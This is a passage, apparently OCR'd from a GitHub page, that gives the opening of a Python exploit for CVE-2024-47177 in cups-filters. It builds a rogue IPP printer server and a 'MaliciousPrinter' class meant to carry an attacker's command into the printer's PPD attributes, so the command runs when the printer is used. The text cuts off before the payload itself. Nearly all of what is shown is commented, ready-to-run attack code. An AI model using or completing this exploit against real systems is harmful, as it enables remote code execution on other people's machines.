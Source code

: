`CVE-2024-47177` cups-filters allows inject malicious code to trigger it when the printer is used

</aside>
<br/><br/>
```python

#!/usr/bin/python3
import sys
import threading
import socket
import time

from ippserver.server import IPPServer
from ippserver.server import IPPRequestHandler
import ippserver.behaviour as behaviour
from ippserver.constants import (
	OperationEnum, StatusCodeEnum, SectionEnum, TagEnum
)
from ippserver.parsers import Integer, Enum, Boolean
from ippserver.request import IppRequest

class ServerContext:
	def __init__(self, server):
		self.server = server
		#Necessary no initialaze because we are using a new thread
		self.server_thread = None
	
	#This is used when we call the class in a with statement
	def __enter__(self):
		print(f'IPP server Listening on {server.server_address}')
		#Keeping the server up until it would be stopped manually
		self.server_thread = threading.Thread(target=self.server.serve_forever)
		#Configure a daemon to the thread which relates the thread with the server
		#When the server stops the thread does the same
		self.server_thread.daemon = True
		self.server_thread.start()
	
	#It executes when we go out from the with statement
	#exc_type and exc_value exception values to debug
	#traceback contains information about errors
	def __exit__(self, exc_type, exc_value, traceback):
		print('Shutting down the server....')
		self.server.shutdown()
		#Waiting until the server thread ends 
		self.server_thread.join()

#It intercepts signals from the Operative System
def handle_signal(signum, frame):
	raise KeyboardInterrupt()
		

##Malicious is inherited from StatelessPrinter
class MaliciousPrinter(behaviour.StatelessPrinter):
	def __init__(self, command):
		self.command = command
		##It makes sure that we can call methods of statelessprinter
		##From Malicious printer
		super(MaliciousPrinter, self).__init__()
	#Attributes to write into .PPD file
	def printer_list_attributes(self):
		attr = {
			(SectionEnum.printer, b'printer-uri-supported', TagEnum.uri): [self.printer_uri],
			(SectionEnum.printer, b'uri-authentication-supported', TagEnum.keyword):[b'none'],
			(SectionEnum.printer, b'uri-security-supported', TagEnum.keyword):[b'none'],
```